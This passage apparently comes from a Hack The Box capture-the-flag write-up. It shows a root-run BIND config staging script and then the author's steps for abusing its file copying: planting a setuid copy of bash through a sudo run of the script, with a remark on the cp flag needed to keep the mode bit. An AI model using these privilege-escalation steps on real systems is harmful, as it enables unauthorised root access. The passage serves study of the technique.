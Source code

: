 ```bash
fi

# Create config file that includes all files from named.bindmgr.
echo "[+] Creating $BINDMGR_CONF file."
printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
for file in * ; do
    printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
done

# Stage new version of configuration files.
echo "[+] Staging files to $BINDMGR_DIR."
cp .version * /etc/bind/named.bindmgr/

# Check generated configuration with named-checkconf.
echo "[+] Checking staged configuration."
named-checkconf $BINDMGR_CONF >/dev/null
if [[ $? -ne 0 ]] ; then
    echo "[-] ERROR: The generated configuration is not valid. Please fix following errors: "
    named-checkconf $BINDMGR_CONF 2>&1 | indent
    exit 44
else 
    echo "[+] Configuration successfully staged."
    # *** TODO *** Uncomment restart once we are live.
    # systemctl restart bind9
    if [[ $? -ne 0 ]] ; then
        echo "[-] Restart of bind9 via systemctl failed. Please check logfile: "
    systemctl status bind9
    else
    echo "[+] Restart of bind9 via systemctl succeeded."
    fi
fi
```

First create an empty directory since the script copies all the files in the cwd:

```bash
cd $(mktemp -d)
```

Then pass the version check with:
 
```bash
echo 1 > .version
```

Next add a bash binary so that it will be copied to `/etc/bind/named.bindmgr/`:

```bash
cp /usr/bin/bash ./
chmod +s ./bash
sudo /usr/local/bin/bindmgr.sh
```

But the binary in `/etc/bind/named.bindmgr/` has lost the sticky bit. To keep
it, `cp` requires the flag `--preserve=mode`.


[author-profile]: https://app.hackthebox.eu/users/77141
[leaks]: images/leaks.png
[no-ip-doc]: https://www.noip.com/integrate/response